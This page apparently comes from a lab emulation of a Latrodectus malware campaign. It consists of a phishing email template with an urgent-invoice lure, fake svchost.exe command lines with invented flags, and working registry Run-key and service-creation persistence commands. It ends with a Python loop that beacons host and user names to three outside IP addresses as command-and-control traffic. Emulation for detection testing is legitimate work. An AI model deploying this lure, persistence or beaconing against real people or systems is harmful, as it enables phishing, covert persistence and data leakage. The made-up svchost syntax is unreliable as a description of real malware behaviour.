 ## Technical Implementation Details

### Phishing Email Template
```html
Subject: Urgent: Invoice Payment Required
From: accounting@legitimate-company.org

Dear labuser,

Please find attached the invoice details that require immediate payment.
The invoice is overdue and needs to be processed today.

Best regards,
Accounting Department

Attachment: invoice_details.zip
```

### Fake svchost.exe Command Line
```batch
REM Latrodectus loader execution
svchost.exe -decode -inject explorer.exe
REM Process injection with evasion
svchost.exe -silent -persist -evade
```

### Registry Persistence Implementation
```batch
REM Establish Run key persistence
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SystemUpdate" /t REG_SZ /d "C:\Users\labuser\AppData\Local\Temp\svchost.exe -silent" /f
REM Create service persistence
sc create "WindowsUpdateSvc" binPath= "C:\Users\labuser\AppData\Local\Temp\svchost.exe" start= auto
```

### C2 Communication Script
```python
# Simulated C2 beaconing pattern
import requests
import time

c2_servers = ["185.243.96.200", "203.0.113.75", "198.51.100.42"]
beacon_interval = 300  # 5 minutes

while True:
    for server in c2_servers:
        try:
            response = requests.post(f"https://{server}/beacon", 
                                   data={"host": "abe-mde-est", "user": "labuser"},
                                   verify=False, timeout=10)
        except:
            pass
    time.sleep(beacon_interval)
```
